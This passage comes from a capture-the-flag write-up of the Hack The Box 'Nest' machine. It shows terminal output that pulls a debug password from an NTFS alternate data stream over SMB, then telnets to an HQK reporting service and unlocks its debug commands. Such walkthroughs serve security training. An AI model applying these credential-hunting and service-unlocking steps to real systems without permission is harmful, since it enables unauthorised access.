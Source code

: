 ```
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA of size 15 as C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
kali@kali:~/htb/boxes/nest/smb/demo/c.smith-users$ ls
'C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA'
kali@kali:~/htb/boxes/nest/smb/demo/c.smith-users$ cat C.Smith\\HQK\ Reporting\\Debug\ Mode\ Password.txt\:Password\:\$DATA 
WBQ201953D8w
```
In case you haven't noticed, the credentials we found was for the `HQK` service. (We found the password in `Carl`'s `HQK` folder). What's HQK you asked? I didn't know then, and I still don't really know now, but it's apparently a legacy database query language. Won't go into too much detail here, but this discovery actually ties in with the second port we'd found earlier in our nmap scans - port 4386. To interact with HQK, we have to telnet, like this:
```
kali@kali:~/htb/boxes/nest/smb/demo/c.smith-users$ telnet nest.htb 4386
Trying 10.10.10.178...
Connected to nest.htb.
Escape character is '^]'.

HQK Reporting Service V1.2

>
```
As always, good to start with a `help` command:
```
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
```
OK, looks like we can `DEBUG` with a `<Password>`. Let's do that with our password:
```
>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
```
Ok, let's do another `help` command:
```
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>
```
A few new commands did appear. Let's try `LIST`:
```
>list

```